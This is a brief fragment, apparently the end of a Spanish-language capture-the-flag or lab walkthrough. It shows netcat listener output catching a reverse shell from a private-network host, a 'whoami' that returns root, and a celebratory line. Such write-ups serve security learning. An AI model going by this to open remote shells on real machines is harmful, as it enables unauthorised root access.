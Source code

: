 ```bash
listening on [any] 65000 ...
connect to [10.0.2.48] from (UNKNOWN) [10.0.2.119] 39892
whoami
root
```
Hemos pwneado la maquina!!!


